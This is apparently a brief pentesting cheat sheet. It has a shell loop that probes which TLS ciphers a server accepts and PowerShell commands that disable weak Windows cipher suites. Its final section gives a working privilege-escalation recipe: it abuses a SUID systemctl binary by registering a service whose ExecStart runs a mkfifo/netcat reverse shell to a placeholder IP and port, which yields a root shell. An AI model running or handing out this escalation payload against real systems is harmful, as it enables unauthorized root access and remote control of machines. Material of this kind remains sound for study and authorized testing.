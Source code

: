 ### Clients that argue

```shell
for ciphers in $(openssl ciphers -tls1 'ALL:eNULL' | sed -e 's/:/ /g'):; do openssl s_client -cipher $ciphers -tls1 example.com:443; done
```

### Windows fix

```
Disable-TlsCipherSuite -Name "TLS_DHE_RSA_WITH_AES_256_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_DHE_RSA_WITH_AES_128_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_RSA_WITH_AES_256_CBC_SHA256"
Disable-TlsCipherSuite -Name "TLS_RSA_WITH_AES_128_CBC_SHA256"
Disable-TlsCipherSuite -Name "TLS_RSA_WITH_AES_256_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_RSA_WITH_AES_128_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_RSA_WITH_3DES_EDE_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_DHE_DSS_WITH_AES_256_CBC_SHA256"
Disable-TlsCipherSuite -Name "TLS_DHE_DSS_WITH_AES_128_CBC_SHA256"
Disable-TlsCipherSuite -Name "TLS_DHE_DSS_WITH_AES_256_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_DHE_DSS_WITH_AES_128_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_DHE_DSS_WITH_3DES_EDE_CBC_SHA"
Disable-TlsCipherSuite -Name "TLS_PSK_WITH_AES_256_CBC_SHA384"
Disable-TlsCipherSuite -Name "TLS_PSK_WITH_AES_128_CBC_SHA256"
```

## systemctl escalation

If the output from `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null` shows `/bin/systemctl` you can register a new service to escalate to root. To do this first run `priv=$(mktemp).service` then register the service.

```
echo '[Service]
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] [port] >/tmp/f"
[Install]
WantedBy=multi-user.target' >$priv
```

Then all you have to do is have a listener and run `/bin/systemctl link $priv` and then `/bin/systemctl enable --now $priv` and you then have a root shell.
